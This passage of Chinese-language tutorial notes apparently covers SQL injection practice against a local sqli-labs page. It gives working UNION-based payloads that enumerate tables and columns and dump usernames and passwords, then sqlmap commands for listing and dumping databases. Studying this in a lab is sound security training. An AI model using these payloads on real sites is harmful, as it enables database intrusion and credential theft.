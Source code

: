 * **常用查询信息**
    - database() # 在用的数据库名
    - user()    # 用户信息
    - version() # 数据库版本信息
    - @@basedir # 数据库安装路径
    - @@version_compile_os # 操作系统版本


![2020-1-2-17-43-36](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-2-17-43-36)


5. 查看数据库数据

* 查看表名称

    **group_concat函数:将查询到的多行结果连接成字符串**
    ```
    http://localhost/sqlilabs/practice/example1.php?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
    ```

* 查看列名

    ```
    http://localhost/sqlilabs/practice/example1.php?id=-1' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_schema ='sqlilabs' AND table_name='users' --+
    ```
* 查看字段

    ```
    http://localhost/sqlilabs/practice/example1.php?id=-1' UNION SELECT 1,group_concat(username SEPARATOR '-'),group_concat(password SEPARATOR '-') FROM users --+
    ```

    将整个表内容显示出来了

    ![2020-1-3-12-29-35](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-3-12-29-35)

    ### sqlmap 注入常用命令
    ```
    sqlmap -u “注入地址” -v 1 –-dbs # 列举数据库
    sqlmap -u “注入地址” -v 1 –-current-db # 当前数据库
    sqlmap -u “注入地址” -v 1 –-users # 列数据库用户
    sqlmap -u “注入地址” -v 1 -D “数据库” –-tables # 列举数据库的表名
    sqlmap.py -u “注入地址” -v 1 -T “表名” -D “数据库” –-columns # 获取表的列名
    sqlmap.py -u “注入地址” -v 1 -T “表名” -D “数据库” -C “字段” –-dump # 获取表中的数据
    ```
    * **注意的点**
        1. **-–batch** 默认选项运行
        2. **--dbs** 爆破数据库
        3. **-–technique** 指定sqlmap使用的检测技术
            - B:Boolean-based-blind （布尔型注入）
            - U:Union query-based （联合注入）
            - E:Error-based （报错型注入)
            - S:Starked queries （通过sqlmap读取文件系统、操作系统、注册表必须 使用该参数，可多语句查询注入）
            - T:Time-based blind （基于时间延迟注入）
